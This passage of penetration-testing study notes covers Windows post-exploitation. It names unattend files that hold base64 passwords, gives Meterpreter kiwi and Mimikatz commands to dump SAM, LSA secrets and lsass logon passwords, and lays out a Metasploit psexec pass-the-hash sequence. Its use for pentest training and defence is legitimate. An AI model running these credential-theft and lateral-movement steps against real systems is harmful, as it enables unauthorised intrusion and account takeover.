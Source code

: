 ***IF YOU DONT FIND ANY PRIVILAGED TOKENS IN BOTH DELEGATION TOKENS AND IMPERSONANTION TOKENS THAN YOU HAVE TO USE THE POTATO ATTACK***

#### Searching for Passwords In Windows Configuration Files:

***YOU NEED ELIVATED PRIVILEGES TO DUMP HASHES***

```Shell
C:\\Windows\Panther\Unattend.xml >> in base64
C:\\Windows\Panther\Autounattend.xml
```

> These are the configuration files that contain the user accounts and their passwords along side system configuration. In unattend the passwords are stored in base64.

#### Dumping hashes with Mimikatz:

**Note:**

> Everything demonstrated here after is basically done after the initial foothold.


```msfconsole
migrate -N lsass.exe
load kiwi
?
creds_all
lsa_dump_sam
lsa_dump_secrets
```

> Dumping passwords hashes using `kiwi`.

```msfconsole
upload usr/share/windows-resources/mimikatz/mimikatz.exe
shell
dir
mimikatz.exe
privilege::debug
lsadump::sam
lsadump::secrets
sekurlsa::logonpasswords
```

> Command can be used to upload the `mimikatz.exe` file and then run it in the windows shell.

#### Pass-The-Hash:

**Note:**

> Everything demonstrated here after is basically done after the initial foothold and after getting the hashes from the kiwi module. Make sure to make a file to store all the hashes in it.


```msfconsole
use exploit/windows/smb/psexec
show options
set LPORT <some-new-port>
set RHOST <ip-address>
set SMBUser Administrator <any-other-user-can-be-used>
set SMBPass <NTLM-HASH:LM-HASH>
set target Native\ upload
exploit
```
